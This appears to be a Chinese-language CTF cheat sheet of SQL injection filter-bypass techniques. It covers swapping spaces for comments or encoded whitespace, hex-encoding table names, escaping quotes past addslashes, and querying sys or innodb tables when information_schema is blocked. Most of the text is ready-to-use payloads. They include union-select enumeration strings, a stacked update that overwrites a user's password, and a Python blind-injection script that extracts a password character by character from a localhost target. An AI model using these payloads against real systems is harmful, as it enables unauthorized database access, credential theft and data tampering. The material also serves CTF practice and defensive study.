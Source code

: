 ## **大写绕过**
select被过滤，试试Select
```
mysql 8.0.19新增语句table

table table_name

过滤select可以使用table代替
```

^
## **过滤单引号**
```
使用转义\将'转成字符，从而可以拼接。

对于表名，使用16进制编码绕过，如：0x666c6167323361
```


^
## **编码绕过**
is_numeric($_GET['id']) ，过滤只允许数字，16进制编码sql注入。


^
## **过滤数字**
可以用true+true组合，相当于1+1
脚本
```
# 用true代替数字
s='0123456789abcdef-{}'
def convert(strs):
  t='concat('
  for s in strs:
    # t+= 'char(true'+'+true'*(ord(s)-1)+'),'
    t+= 'char(true'+'%2btrue'*(ord(s)-1)+'),'
  return t[:-1]+")"
print(convert('2'))
```


^
## **空格被过滤**
+空格过滤可以利用/**/代替空格。
```
有的时候是union select被过滤，union/**/select也可以绕过
```
编码绕过
```
%09  制表符table

%0a
%0b
%0c
%0d
```


利用括号，括号住变量。
```
所有库
select(group_concat(schema_name))from(information_schema.schemata)
库所有表
select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())
```

反引号代替空格
```
username = 0;update`ctfshow_user`set`pass`=1
```

^
## **注释符被过滤**
```
1、#编码用%23
2、将后面的单引号闭合即可。'or(id=26)and'1'='1   
or '1'='1
```

用;%00 来进行注释
```
http://localhost/CTF/?user=\&pwd=||1;%00
对应SQL语句为：
select user from users where user='\' and pwd='||1;'
等价于：
select user from users where user='xxxxxxxxxxx'||1#
```
盲注
```
import string
import requests
import re
char_set = '0123456789abcdefghijklmnopqrstuvwxyz_'
pw = ''
while 1:
    for ch in char_set:
        url = 'http://localhost/CTF/?user=\\&pwd=||pwd/**/regexp/**/"^%s";%%00'
        r = requests.get(url=url%(pw+ch))
        if 'Welcome Admin' in r.text:
            pw += ch
            print(pw)
            break
    if ch == '_': break
r = requests.get('http://localhost/CTF/?user=&pwd=%s' % pw)
print(re.findall('HRCTF{\S{1,50}}',r.text)[0])
```

^
## **or 被过滤导致orderby、information_schema都不能用**
用其他逻辑运算符and ， && ， &， |  ,1^1^
查表名使用 
```
select group_concat(table_name）from mysql.innodb_table_stats where database_name=database()
```
如果information_schema被禁止，通过sys.schema获取当前数据库表名
```
1&&ascii(substr((select group_concat(table_name)from sys.x$schema_flattened_keys where table_schema=database()),1,1))=103
2||ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{},1))={}.format()
```

^
## **无字段名注入**
<https://www.cnblogs.com/hello-there/p/12918265.html>
知道表名，不知道字段名。分析字段数，再统一查某个字段的所有值。
```
表的字段数判断：select 1,2 union select * from user  试出字段数。

再直接查出值，无需知道字段名，查出原表第2的字段的所有记录值
select 1,2 union select * from user;

select `2` from  (select 1,2 union select * from user) as u
select u.2 from (select 1,2 union select * from users) as u

整合
select group_concat(`2`) from  (select 1,2 union select * from user) as u 


1. 列名需要用``包裹起来，字段名为数字，则`2`

2. 使用子查询的时候,即一个查询嵌套在另一个查询中,内层查询的结果可以作为外层查询的条件,内层查询到的结果需要起一个别名(as)
```

## **布尔中知道表名，不知字段名注入，布尔加无列名注入**
已知可以布尔盲注，但不知道字段名，直接无列名注入
```
表中如果有多个记录值：要条件查询成一条，一般都是一条。where flag like "f%"

表的字段数判断：select 1,2 union select * from user  试出字段数。

一个字段一条记录
select((select "{}")>(select * from f1ag_1s_h3r3_hhhhh))
两个字段一条记录，获取字段
select((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))

select((select 1,"fla")>(select * from f1ag_1s_h3r3_hhhhh))
通过flb>flag{xxx} 比较结果1或0即可
当为1时的回显，值-1就是正确字符
2||((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))
```






^
^
## **函数等效替换**
报错函数被过滤，寻找顶替。
ascii和ord


^
## **存在转义函数addslashes绕过**
```
addslashes($id);
将字符串里面的' " \等转义。
'将变成\'


如果此时下面存在，特殊字符去除 \0 %00 \' '
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);

那么传入\0 先变成\\0 再变成\
如果是sql语句\就会转义后面字符。
select * from images where id='{$id}' or path='{$path}'

select * from images where id='\' or path='   {$path}'
这里'\' or path = ' 成了一个单独字符串
$path就可以随意注入
or sleep(3)--+
```

^
如果是数值传参，如果是)闭合，直接不传入"和\即可绕过：
```
addslashes($id);
$res = $conn->query("SELECT `username` FROM ctfshow_users WHERE id = ($id)");

?id=222)%20union%20select%20group_concat(table_name)%20from%20mysql.innodb_table_stats%20where%20database_name%20=%20database()%23
```


^
类似还有\导致'转义逃逸sql注入
```
md5(128, true) //这个true返回二进制的数据结尾就是\，可以转义'。

```

^
## **where后=和like被过滤，用字段名使用正则模糊匹配字段的值**
需要知道字段名
```
select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')

select flag from Flag where flag regexp "^f";

flag like "f%"
(flag)like'c%'
```